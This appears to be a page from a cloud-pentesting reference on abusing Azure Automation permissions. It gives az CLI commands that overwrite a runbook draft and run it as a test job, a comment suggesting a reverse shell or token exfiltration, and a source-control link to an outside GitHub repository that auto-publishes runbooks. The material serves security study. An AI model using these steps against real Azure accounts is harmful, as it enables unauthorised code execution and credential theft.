 
### `Microsoft.Automation/automationAccounts/runbooks/draft/write`

Just with the permission `Microsoft.Automation/automationAccounts/runbooks/draft/write` it's possible to **update the code of a Runbook** without publishing it and run it using the following commands.

```bash
# Update the runbook content with the provided PowerShell script
az automation runbook replace-content --no-wait \
  --resource-group Resource_Group_1 \
  --automation-account-name autoaccount1 \
  --name AzureAutomationTutorialWithIdentity \
  --content 'echo "Hello World"'

# Run the unpublished code
## Indicate the name of the hybrid worker group in runOn to execute the runbook there
az rest \
  --method PUT \
  --url "https://management.azure.com/subscriptions/9291ff6e-6afb-430e-82a4-6f04b2d05c7f/resourceGroups/Resource_Group_1/providers/Microsoft.Automation/automationAccounts/autoaccount1/runbooks/AzureAutomationTutorialWithIdentity/draft/testJob?api-version=2023-05-15-preview" \
  --headers "Content-Type=application/json" \
  --body '{
    "parameters": {},
    "runOn": "",
    "runtimeEnvironment": "PowerShell-5.1"
  }'

# Get the output (a different permission is needed here, but you could get a revershell or exfiltrate the token to avoid needing this permission)
az rest --method get --url "https://management.azure.com/subscriptions/9291ff6e-6afb-430e-82a4-6f04b2d05c7f/resourceGroups/Resource_Group_1/providers/Microsoft.Automation/automationAccounts/autoaccount1/runbooks/AzureAutomationTutorialWithIdentity/draft/testJob/streams?api-version=2019-06-01"
```

### `Microsoft.Automation/automationAccounts/sourceControls/write`, (`Microsoft.Automation/automationAccounts/sourceControls/read`)

This permission allows the user to **configure a source control** for the Automation Account using a commands such as the following (this uses Github as example):

```bash
az automation source-control create \
    --resource-group <res-group> \
    --automation-account-name <automation-account-name> \
    --name RemoteGithub \
    --repo-url https://github.com/carlospolop/gh-runbooks.git \
    --branch main \
    --folder-path /runbooks/ \
    --publish-runbook true \
    --auto-sync \
    --source-type GitHub \
    --token-type PersonalAccessToken \
    --access-token github_pat_11AEDCVZ<rest-of-the-token>
```
